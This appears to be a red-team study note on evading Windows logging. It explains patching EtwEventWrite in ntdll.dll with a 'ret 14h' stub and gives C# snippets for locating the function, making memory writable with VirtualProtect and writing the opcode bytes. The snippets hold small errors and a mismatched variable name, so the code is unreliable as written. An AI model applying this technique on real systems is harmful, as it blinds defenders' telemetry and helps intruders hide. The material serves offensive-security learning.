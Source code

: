    - If each argument is 4 bytes (typical for 32-bit), then 20 bytes is **5 arguments**.


![Evading Logging and Monitoring-9.png](/img/user/cards/red-team/images/Evading%20Logging%20and%20Monitoring-9.png)

1. “patch” the function by inserting a `ret 14h` at the **very start** of the function.
2. `ret 14h` becomes the top of the stack this means CPU will execute `ret 14h` immediately when the function is called.
3. When the function starts: 
	- `ret` means:
		- `Pop` the return address from the stack (this is the address of the code that called the function)
		- `Jump` to that address to continue the other remaining code aside from the function we wanted to skip, think of it having func1, func2, and func3 where in we want to skip func2 but still want to run func3 for some reason.

### Technical Applications
---

**1. Get the function’s memory address**

- ETW logging happens inside `ntdll.dll`, in a function called `EtwEventWrite`.

- Using `LoadLibrary("ntdll.dll")` and `GetProcAddress(...)`, the attacker gets a pointer to exactly where in memory this function lives.

```csharp
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");
```

**2. Change Memory Permissions**

- Normally executables and `ntdll.dll` in memory is marked as read-only.
- Using `VirtualProtect` to change the value to `0x40` (Read/Write/Execute) so they can overwrite the instructions inside.

```csharp
uint oldProtect;
Win32.VirtualProtect(
	etwFunction, 
	(UIntPtr)patch.Length, 
	0x40, 
	out oldProtect
);
```

**3. Write the malicious opcode** (`ret 14h`)

- `ret 14h` in machine code is `0xC2 0x14 0x00`.
- You use `Marshal.Copy` to write those bytes directly over the start of the function memory

```csharp
patch(new byte[] { 0xc2, 0x14, 0x00 });
Marshal.Copy(
	patch, 
	0, 
	etwEventSend, 
	patch.Length
);
```
